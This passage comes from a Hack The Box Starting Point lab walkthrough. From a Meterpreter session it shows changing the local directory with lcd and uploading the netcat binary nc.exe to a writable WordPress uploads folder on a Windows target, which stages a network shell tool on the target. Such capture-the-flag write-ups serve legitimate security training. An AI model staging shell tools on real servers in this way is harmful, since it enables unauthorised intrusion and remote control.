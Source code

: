 

From within the meterpeter session, let’s move to oyr local Toolsdirectory
``` script 
kali@kali: ~/HTB/StartingPoint/Tools $ pwd
/home/kali/HTB/StartingPoint/Tools
```



We can use the **lcd** command ( **lcd** stands for "**Local Change
Directory**", which we use to navigate to the local folder where
*nc.exe* is located.)
``` script 
meterpreter  >  lcd
Usage:  lcd  directory
```


So, let’s move to the “**/home/kali/HTB/StartingPoint/Tools**” folder wherethe “nc.exe” binary is located
``` script 
meterpreter  >  lcd  /home/kali/HTB/StartingPoint/Tools
```

We then navigate to a writeable directory on the server (in our case
**C:/inetpub/wwwroot/wordpress/wp-content/upload**s) and upload netcat.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image105.png"></div>

The command to use is the “upload” command: **upload nc.exe**
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image106.png"></div>

We can see now the nc.exe program in the “upload” folder
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image107.png"></div>
